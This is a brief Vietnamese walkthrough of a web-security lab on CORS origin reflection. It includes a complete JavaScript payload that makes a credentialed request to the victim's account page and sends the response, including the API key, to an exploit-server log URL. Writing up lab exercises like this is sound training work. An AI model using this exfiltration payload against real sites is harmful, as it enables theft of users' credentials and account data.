

# Lab: CORS vulnerability with basic origin reflection

Sau khi đăng nhập, thêm header `Origin` cho `/accountDetails` thì thấy có reflect trong response qua `Access-Control-Allow-Origin`, ngoài ra còn có `Access-Control-Allow-Credentials: true`.


Truy cập exploit server, sửa đổi body thành:
```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ad80025035cc1bd8094624000160090.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='https://exploit-0a6c006703a4c10f80d161e301f1003a.exploit-server.net/log?key='+this.responseText;
    };
</script>
```

Deliver to victim, truy cập log sẽ thu được API key của victim.